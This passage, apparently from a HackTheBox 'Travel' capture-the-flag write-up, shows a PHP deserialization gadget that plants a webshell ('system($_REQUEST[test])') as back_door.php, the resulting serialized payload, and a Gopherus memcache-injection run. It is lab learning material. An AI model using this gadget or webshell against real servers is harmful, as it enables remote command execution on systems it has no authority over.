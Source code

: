 ```text
<?php
class TemplateHelper
{
public $file;
public $data;
public function __construct(string $file, string $data)
{
$this->init($file, $data);
}
private function init(string $file, string $data)
{
$this->file = $file;
$this->data = $data;
file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
}
}
$back_door = new TemplateHelper("back_door.php", "<?php system(\$_REQUEST[test]); ?>");
echo serialize($back_door);
?>
```

> The script above serializes an object of the class TemplateHelper , which writes a webshell to shell.php on deserialization.

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ php -f test.php
PHP Warning:  file_put_contents(/home/zweilos/htb/travel/logs/back_door.php): failed to open stream: No such file or directory in /home/zweilos/htb/travel/test.php on line 14
O:14:"TemplateHelper":2:{s:4:"file";s:13:"back_door.php";s:4:"data";s:28:"<?php system($_GET[test]);?>";}
```

> Next, we need to set this payload as a value for the key xct\_4e5612ba079c530a6b1f148c0b352241 , so that it is deserialized when the server next fetches feeds.

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ php -f test.php                                                                                 1 ⨯
PHP Warning:  file_put_contents(/home/zweilos/htb/travel/logs/back_door.php): failed to open stream: No such file or directory in /home/zweilos/htb/travel/test.php on line 14
O:14:"TemplateHelper":2:{s:4:"file";s:13:"back_door.php";s:4:"data";s:34:"<?php system($_REQUEST['test']);?>";}                                                                                                        
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ Gopherus/gopherus.py --exploit phpmemcache

  ________              .__                                                                             
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                              
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                              
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                               
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                              
        \/       |__|        \/     \/                 \/                                               

                author: $_SpyD3r_$                                                                      

This is usable when you know Class and Variable name used by user
```